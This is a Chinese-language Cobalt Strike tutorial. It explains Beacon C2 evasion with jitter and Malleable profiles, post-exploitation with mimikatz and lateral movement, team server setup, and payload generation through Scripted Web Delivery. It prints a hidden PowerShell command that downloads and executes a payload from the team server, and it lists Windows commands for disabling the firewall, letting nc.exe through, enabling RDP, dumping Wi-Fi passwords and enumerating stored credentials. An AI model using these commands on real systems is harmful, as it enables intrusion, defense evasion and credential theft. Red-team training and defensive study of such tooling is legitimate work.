# Cobalt Strike

## 架构与核心组件

**Team Server（团队服务器）：** 运行在 Linux 上的 Java 程序，是整个行动的“大脑”。它管理所有 Beacon 会话、下发指令、存储数据，默认监听 50050 端口供操作员连接。

**Client（客户端）：** 操作员使用的图形界面，通过连接 Team Server 来操控 Beacon。支持多客户端同时连接，适合团队协同作战。

**Beacon（信标）：** 植入目标主机的后渗透代理，是 CS 的“心脏”。它是一个内存驻留的反射 DLL，提供 C2 通信和后渗透功能。

## Beacon 的工作机制：低频异步与抖动
>Beacon 不是实时 Shell，它的核心行为是异步通信。

默认情况下，Beacon 每 60 秒“醒来”一次，回连 Team Server 检查是否有新指令，然后继续“沉睡”。这种低频模式让它在网络流量分析中很难被识别为 C2。

更隐蔽的是抖动（Jitter）。操作员可以设置 sleep 60 20，意味着 Beacon 的回连间隔在 48 到 72 秒之间随机浮动。这打破了固定心跳的规律性，让基于“周期性连接”的检测手段失效。

*Beacon 支持多种通信通道，各有用途：*

- HTTP/HTTPS：最常用，可伪装成正常 Web 流量。
- DNS：带宽极低但极难封锁，适合严苛的出网环境。
- SMB：通过命名管道通信，用于内网横向，受控主机之间形成链式结构，无需直接出网。

## 核心规避能力：Malleable C2 Profiles
这是 CS 最具标志性的功能。操作员可以通过配置文件，完全自定义 Beacon 的 HTTP/HTTPS 流量特征，使其看起来像合法服务。

一个模仿 Microsoft Teams 的 Profile 会设置：

- URI 路径：/api/v1/teams/users/presence
- Host 头：teams.microsoft.com
- User-Agent：Mozilla/5.0 ... AppleWebKit/537.36

从网络监控设备看，C2 流量与正常的 Teams 业务请求几乎无异

## 后渗透与横向移动能力
Beacon 上线后，操作员通过交互式控制台执行后渗透操作：

- 凭据操作：mimikatz 在内存中执行，转储哈希和明文密码；hashdump 提取 SAM 哈希。
- 横向移动：jump psexec、jump winrm 等命令利用凭据在域内扩散。
- 进程操作：inject 将 Beacon 注入其他进程；execute-assembly 在内存中执行 .NET 程序。
- SMB Beacon：这是内网横向的关键。当一台外网主机已被控制，操作员可以在这台主机能访问的内网机器上注入 SMB Beacon。SMB Beacon 通过命名管道与“父” Beacon 通信，再由父 Beacon 转发数据到 Team Server。内网机器全程无需出网，大幅降低了暴露风险。

## Team Server文件说明

- TeamServerImage：这是新版的核心可执行文件（约 35 MB），替代了旧版 cobaltstrike.jar 的角色，是 Team Server 的实际运行主体。
- cobaltstrike.auth：授权文件，必须与 license key 匹配，缺失或过期会导致服务端无法启动。
- teamserver：启动脚本，但它本身不是可执行程序，而是调用 start.sh 的入口。
- start.sh：实际执行启动逻辑的 shell 脚本。
- source-common.sh：公共函数库，被 start.sh 引用。
- third-party：第三方依赖库目录。



## Team Server部署
1. **上传到 Linux 服务器**

将整个文件夹上传到 Kali/Ubuntu 服务器，例如 /opt/cobaltstrike。


2. **赋权**

```bash
cd /opt/cobaltstrike
chmod +x teamserver start.sh TeamServerImage
```



3. **启动 Team Server**

```bash
./teamserver <服务器公网IP> <连接密码> 
```


## 客户端文件说明

- **cobaltstrike.jar：** Team Server 的核心程序，旧版启动脚本会调用它。
- **cobaltstrike-client.jar：** 客户端主程序，这是你在本地 Windows/Mac/Linux 上连接 Team Server 时运行的文件。
- **cobaltstrike.sh：** Linux 下启动 Team Server 的脚本。
- **cobaltstrike.auth：** 授权文件，需与 license 匹配。
- **Cobalt_Strike_CN.bat / .vbs：** Windows 客户端启动器，双击 .bat 或 .vbs 即可启动中文版客户端。
- **resources、scripts、plugin：** 客户端资源、脚本和插件目录。

## 客户端部署


1. 确保已安装 Java 17+
2. 启动客户端

    - Windows：双击 Cobalt_Strike_CN.bat 或 Cobalt_Strike_CN.vbs，会弹出连接窗口。
    - Linux/macOS：运行 java -jar cobaltstrike-client.jar。

3. 连接 Team Server

    在弹出的界面中填写：

    - Host：Team Server 的 IP 地址
    - Port：默认 50050
    - User：任意用户名
    - Password：启动 Team Server 时设置的密码

    首次连接会弹出证书指纹确认，点击 Accept 即可。
    


## 监听器





## 生成木马


- URI Path：/a 这是下载路径，最终目标执行的命令里会包含这个路径。
- Local Host：192.168.162.128 这里填你 Team Server 的 IP，也就是被控主机能访问到的地址。
- Local Port：9999 HTTP 服务监听的端口。注意：不要和 Team Server 的 50050 端口冲突，80 端口如果被 Nginx 之类占用，可以改成 8080 等。
- Listener：cs 选择一个监听器。
- Type：powershell。投递方式，可选 powershell、bitsadmin、python 等。目标机器有 PowerShell 就用这个。
- x64：勾选了 Use x64 payload。目标系统是 64 位就勾选。



- Started service: Scripted Web Delivery：Web 投递服务已成功启动。它此刻正在监听你填的 192.168.162.128:9999，等着被目标机器访问。
- Copy and paste this URL to access it：把下面的命令复制到目标机器上执行。
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.162.128:9999/a'))"
```



## 信息收集

- 查询操作系统和版本信息
    ```
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    systeminfo| findstr /B /C:"OS 名称" /C:"OS 版本"
    ```
    

- 查看系统体系结构
    ````
    echo %PROCESSOR_ARCHITECTURE%
    ```
    

- 查看安装的软件及版本
    ```
    wmic product get name,version
    powershell "Get-WmiObject -class win32_product | Select-Object -Property name,version"
    ```

    

- 本机正在运行的服务
    ```
    wmic service list brief
    ```
    

- 查看进程
    ```
    tasklist
    wmic process list brief
    ```
    
    

- 电脑启动程序
    ```
    wmic startup get command,caption     
    ```
    

- 查看计划任务（如果出现无法加载列资源 输入：chcp 437）
    ```
    schtasks /query /fo LIST /v
    ```
    

- 电脑开机时间
    ```
    net statistics workstation
    ```
    


- 用户列表信息
    ```
    net user
    wmic useraccount get name ,SID
    ```
    

- 当前会话列表
    ```
    net session
    ```
    

- 查询端口信息
    ```
    netstat -ano
    ```
    

- 查询补丁信息
    ```
    systeminfo
    wmic qfe get Caption,Description,HotFixID,InstalledOn
    ``` 
    
    

- 查询杀软等信息
    ```
    wmic /node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get displayname /format:list
    ```

- 查询共享列表
    ```
    net share
    wmic share get name,path,status
    ```
    

- 查询路由信息
    ```
    route print
    ```
    

- 查询防火墙是否开启
    ```
    netsh firewall show state
    ```
    

- 关闭防火墙强
    ```
    # Windows server 2003:     
    netsh firewall set opmode disable

    #Windows server 2003之后: 
    netsh firewall set opmode disable 
    
    # 或者 
    netsh advfirewall set allprofiles state off
    ```
    

- 防火墙其他的命令
    ```
    # 2003及之前的版本,允许指定的程序进行全部的连接

    netsh firewall add allowedprogram c:\nc.exe "allownc" enable

    # 2003之后的版本，允许指定的程序进行全部的连接
    netsh advfirewall firewall add rule name="pass nc"dir=in action=allow program="C:\nc.exe"

    # 允许指定程序退出,命令如下
    netsh advfirewall firewall add rule name="Allownc" dir=out action=allow program="C: \nc.exe"

    # 允许3389端口放行,命令如下
    netsh advfirewall firewall add rule name="RemoteDesktop" protocol=TCP dir=in localport=3389 action=allow
    ```

- 开启3389
    ```
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
    ```
    
    

- 关闭3389
    ```
    REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d  11111111 /f 
    ```
    
    

- 收集本机的WIFI密码信息
    ```
    for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
    ```
    

- 查询RDP端口
    ```
    reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber

    ```
    

- 查询当前保存的凭据
    ```
    cmdkey /l 
    ```
    

- arp信息
    ```
    arp -a
    ```
    

- 查询最近打开的文件
    ```
    dir %APPDATA%\Microsoft\Windows\Recent
    ```
    

- 查询本地工作组
    ```
    net localgroup
    ```
    

- 查询管理员组员信息
    ```
    net localgroup administrators
    ```
    

- 查询RDP凭据
    ```
    dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
    ```
    